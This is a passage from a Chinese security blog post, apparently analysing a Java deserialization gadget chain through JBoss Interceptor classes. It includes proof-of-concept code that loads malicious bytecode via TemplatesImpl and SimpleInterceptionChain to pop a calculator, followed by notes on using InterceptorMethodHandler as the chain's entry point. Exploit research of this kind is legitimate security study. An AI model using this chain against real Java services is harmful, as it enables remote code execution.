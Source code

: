 ```
//        invokeMethod.invoke(o, new Object[]{null});
        Collection<InterceptorInvocation<?>> interceptorInvocationObjLst = new ArrayList<>();
        interceptorInvocationObjLst.add(interceptorInvocationObj);
        SimpleInterceptionChain simpleInterceptionChain = new SimpleInterceptionChain(interceptorInvocationObjLst, null, templatesImpl, newTransformer);
        // 手动调用 invokeNextInterceptor 触发弹窗
        simpleInterceptionChain.invokeNextInterceptor(new InterceptorInvocationContext(simpleInterceptionChain, templatesImpl, newTransformer, null));
    }

//    // 通过 Unsafe 无视构造方法进行实例化
//    public static Object getObjectByUnsafe(Class myclazz) throws Exception {
//        Class<?> clazz = Class.forName("sun.misc.Unsafe");
//        Field theUnsafe = clazz.getDeclaredField("theUnsafe"); // 因为 theUnsafe 使用 static 进行修饰, 在 static 代码块中进行初始化,
//        theUnsafe.setAccessible(true);
//        Unsafe o = (Unsafe) theUnsafe.get(null);
//        return o.allocateInstance(myclazz);
//    }

    public static TemplatesImpl getTemplatesImpl() throws Exception {
        TemplatesImpl templates = new TemplatesImpl();
        Field bytecodes = templates.getClass().getDeclaredField("_bytecodes"); // 最终调用到 defineClass 方法中加载类字节码
        Field name = templates.getClass().getDeclaredField("_name"); // 放置任意值
        Field tfactory = templates.getClass().getDeclaredField("_tfactory");
        name.setAccessible(true);
        bytecodes.setAccessible(true);
        tfactory.setAccessible(true);
        byte[][] myBytes = new byte[1][];
        myBytes[0] = Repository.lookupClass(Evil.class).getBytes(); // 这个恶意类必须继承`com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet`抽象类, 之前有分析过, 就不提及了.
        bytecodes.set(templates, myBytes);
        name.set(templates, "");
        tfactory.set(templates, new TransformerFactoryImpl());
        return templates;
    }
}

```  
  
运行即可弹出计算器.  
### org.jboss.interceptor.proxy.InterceptorMethodHandler -> 链路开头 & 链路末尾 & 实现 Serializable  
  
上面两个案例实际上都会在org.jboss.interceptor.proxy.InterceptorMethodHandler  
类中满足某些分支的情况下进行主动调用SimpleInterceptionChain::invokeNextInterceptor  
, 但是前提是需要清晰的划分我们应该定义哪些成员属性, 那些成员属性的实例化方式是什么, 变量与变量之间存在哪些联系, 绕过什么样的if分支才能走到最终的sink点  
, 这才是最终要考虑的地方, 举个例子:  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/tiaKRx8m4Wn6uT0Y9G3mhXadKvVPGSmCsALP3XWFLZl0aTa630SkkoSax9kumZg7EemR89icb5icZGic9Ioq1TYN0w/640?wx_fmt=png&from=appmsg "")  
  